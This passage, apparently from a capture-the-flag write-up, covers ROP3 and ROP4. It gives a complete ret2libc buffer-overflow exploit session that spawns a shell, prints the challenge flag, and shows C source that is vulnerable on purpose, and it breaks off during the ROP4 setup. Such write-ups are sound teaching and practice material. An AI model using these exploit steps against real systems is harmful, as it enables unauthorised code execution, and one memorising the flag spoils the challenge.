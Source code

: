 ```sh
$ export | grep SHELL
export SHELL="/bin/sh"
$ ln -s /problems/ROP_3_7f3312fe43c46d26/rop3 rop3
$ ./getenvaddr SHELL ./rop3
SHELL will be at 0xffffd881
$ gdb rop3
(gdb) break main
(gdb) run
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e68250 <system>
(gdb) print exit
$2 = {<text variable, no debug info>} 0xf7e5bf30 <exit>
$ (python -c 'print "\x90"*140 + "\x50\x82\xe6\xf7" + "\x30\xbf\xe5\xf7" + "\x87\xd8\xff\xff"'; cat) | ./rop3
cat /problems/ROP_3_7f3312fe43c46d26/key
rop_rop_rop_all_the_way_home
```

ROP4
===
```sh
$ cat /problems/ROP_4_887f7f28b1f64d7e/rop4.c
#include <stdio.h>
#include <unistd.h>
#include <string.h>

char exec_string[20];

void exec_the_string() {
 execlp(exec_string, exec_string, NULL);
}

void call_me_with_cafebabe(int cafebabe) {
 if (cafebabe == 0xcafebabe) {
  strcpy(exec_string, "/sh");
 }
}

void call_me_with_two_args(int deadbeef, int cafebabe) {
 if (cafebabe == 0xcafebabe && deadbeef == 0xdeadbeef) {
  strcpy(exec_string, "/bin");
 }
}

void vulnerable_function() {
 char buf[128];
 read(STDIN_FILENO, buf, 512);
}

void be_nice_to_people() {
 // /bin/sh is usually symlinked to bash, which usually drops privs. Make
 // sure we don't drop privs if we exec bash, (ie if we call system()).
 gid_t gid = getegid();
 setresgid(gid, gid, gid);
}

int main(int argc, char** argv) {
 exec_string[0] = '\0';
 be_nice_to_people();
 vulnerable_function();
}
$ ln -s /problems/ROP_4_887f7f28b1f64d7e/rop4 rop4
$ ./getenvadrr SHELL ./rop4
SHELL will be at 0xffffd881
```